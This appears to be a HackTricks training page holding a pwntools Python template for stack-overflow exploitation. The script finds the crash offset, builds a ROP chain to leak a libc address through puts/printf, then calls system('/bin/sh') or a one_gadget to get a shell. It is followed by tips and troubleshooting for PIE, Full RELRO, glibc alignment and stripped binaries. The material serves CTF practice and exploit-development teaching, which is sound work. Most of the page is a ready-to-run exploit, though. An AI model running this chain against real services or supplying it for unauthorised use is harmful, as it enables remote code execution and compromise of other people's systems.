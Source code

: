 # Leaking libc - template

{{#include ../../../../banners/hacktricks-training.md}}

```python:template.py
#!/usr/bin/env python3
"""
Updated ROP template (2025-08) for leaking a libc address and getting a shell.
• Works with PIE / non-PIE binaries (64-bit)
• Handles 16-byte stack alignment automatically
• Easily switch between LOCAL/REMOTE/GDB with cli flags
• Compatible with recent pwntools (≥4.13) and glibc ≥2.39
"""
from pwn import *  # pwntools ≥4.13 recommended
import argparse, string, subprocess

###################
###   CONTEXT   ###
###################
context.binary = ELF("./vuln", checksec=False)  # local copy of the target
context.arch   = context.binary.arch
context.log_level = "info"  # change to "debug" for verbose output

# Helpful one-liners for modern ubuntu images
# $ pwninit  # auto-patches binary & drops solve.py (see refs)

###################
###  ARGUMENTS  ###
###################
parser = argparse.ArgumentParser()
parser.add_argument("--remote", metavar="IP:PORT", help="remote host, ex 10.10.10.10:1339")
parser.add_argument("--ssh",   action="store_true", help="spawn via ssh stub (edit creds)")
parser.add_argument("--gdb",   action="store_true", help="attach gdb at launch")
parser.add_argument("--libc",  help="supply external libc (auto used when provided)")
args = parser.parse_args()

LOCAL_BIN = str(context.binary.path)
LIBC      = ELF(args.libc) if args.libc else None
ENV       = {"LD_PRELOAD": args.libc} if args.libc else {}

###################
###  CONNECTION  ###
###################
if args.remote:
    host, port = args.remote.split(":")
    P = remote(host, int(port))
elif args.ssh:
    ssh_shell = ssh("user", "host", password="pass", port=22)
    P = ssh_shell.process(LOCAL_BIN, env=ENV)
else:
    P = process(LOCAL_BIN, env=ENV)

if args.gdb and not args.remote and not args.ssh:
    gdb.attach(P, gdbscript="b *main")

ELF_LOADED = context.binary  # alias
ROP_LOADED = ROP(ELF_LOADED)

#########################
#### OFFSET FINDER  #####
#########################
OFFSET = b""  # b"A"*264  – leave empty to bruteforce with cyclic()
if OFFSET == b"":
    log.info("Calculating offset with cyclic pattern …")
    P.sendline(cyclic(600))
    P.wait()
    core = P.corefile
    offset_val = cyclic_find(core.read(core.rsp, 4))
    log.success(f"Crash offset: {offset_val} bytes")
    exit(0)

####################
### Find Gadgets ###
####################
libc_func  = "puts" if "puts" in ELF_LOADED.plt else "printf"
FUNC_PLT   = ELF_LOADED.plt[libc_func]
MAIN_PLT   = ELF_LOADED.symbols.get("main", None) or ELF_LOADED.entry
POP_RDI    = ROP_LOADED.find_gadget(["pop rdi", "ret"])[0]
RET        = ROP_LOADED.find_gadget(["ret"])[0]  # for stack alignment

for name,val in {"MAIN":MAIN_PLT, libc_func.upper():FUNC_PLT, "POP_RDI":POP_RDI}.items():
    log.info(f"{name}: {hex(val)}")

########################
### Leak libc addr   ###
########################

def align(payload: bytes) -> bytes:
    """Ensure 16-byte RSP alignment for glibc ≥2.29."""
    return payload if len(payload)%16==0 else payload + p64(RET)


def leak_libc(sym:str = libc_func):
    func_got = ELF_LOADED.got[sym]
    log.info(f"{sym} GOT @ {hex(func_got)}")

    rop  = b"".join([
        p64(POP_RDI), p64(func_got),
        p64(FUNC_PLT),
        p64(MAIN_PLT)
    ])
    payload = align(OFFSET + rop)
    P.sendlineafter(b"\n", payload)

    leak = u64(P.recvline().strip().ljust(8,b"\x00"))
    log.success(f"Leaked {sym}: {hex(leak)}")

    if LIBC:
        LIBC.address = leak - LIBC.symbols[sym]
        log.success(f"libc base → {hex(LIBC.address)}")
    else:
        log.warning("No external libc provided. Use https://libc.blukat.me or libc-database to identify it.")
        P.interactive()
        exit(0)
    return leak

leak_libc()

#############################
#### FINAL EXPLOITATION #####
#############################
USE_ONE_GADGET = False  # toggle on demand


def get_one_gadgets(libc_path_or_base:str):
    """Return list of one-gadget offsets using the one_gadget gem."""
    try:
        output = subprocess.check_output(["one_gadget", "-r", libc_path_or_base]).decode()
        return [int(x,16) for x in output.split()]  # list of ints
    except Exception as e:
        log.warning(f"one_gadget failed: {e}")
        return []

rop_chain = b""
if USE_ONE_GADGET:
    og = get_one_gadgets(args.libc)[0]
    rop_chain = p64(LIBC.address + og)
else:
    BINSH  = next(LIBC.search(b"/bin/sh"))
    SYSTEM = LIBC.sym["system"]
    rop_chain = p64(POP_RDI) + p64(BINSH) + p64(SYSTEM)

payload2 = align(OFFSET + rop_chain)
P.sendlineafter(b"\n", payload2)
P.interactive()
```

> **Why the RET for alignment?**  
> Since glibc 2.29 the stack *must* be 16-byte aligned when a function is entered via `ret`; otherwise `_dl_runtime_resolve()` crashes. Adding an extra `ret` gadget fixes this for most leaks/ROP chains.

## Modern tips (2023-2025)

* **PIE binaries** – When the target was compiled with `-pie` (check with `checksec`), every address you leak from the *binary* itself (not libc) must be used to compute the PIE base: `pie_base = leaked_addr - elf.symbols['known_sym']`. Add that base to every further gadget offset.
* **Full RELRO** – If the binary has *Full RELRO*, the GOT is read-only, but you can still *read* entries to leak libc. You just cannot overwrite them.
* **Multiple libraries** – Recent CTFs often ship both `libc.so.6` *and* a custom `libm.so`. Use `pwninit` ≥3.3 to automatically patch the binary so that it loads all supplied libs and generate a skeleton solve script.
* **gl﻿ibc 2.34+** – `__libc_start_main_ret` and `__libc_csu_init` offsets changed; prefer leaking a stable symbol like `puts` or `printf`.

## Common problems

### MAIN symbol missing in stripped PIE binaries
Use any leaked code pointer to compute the PIE base and set `MAIN_PLT = pie_base + offset` (main offset can be taken from `IDA`, `Ghidra` or `readelf -s`).

### `System` executes but no shell returned remotely
Make sure to pass a *valid* `/bin/sh` pointer (musl images don’t have the string; use an RW segment and `read` it first) and remember remote filters that may close stdio.

### Stack mis-alignment causes `munmap_chunk(): invalid pointer`
If the process crashes right after leaking, the stack is likely un-aligned. Insert an additional `RET` gadget before your chain (already automated in `align()` helper).

## References

- pwninit – Automate patching binaries and supplied libc, GitHub (io12)  
- Pwntools documentation – Context, ROP utilities (https://docs.pwntools.com)

{{#include ../../../../banners/hacktricks-training.md}}
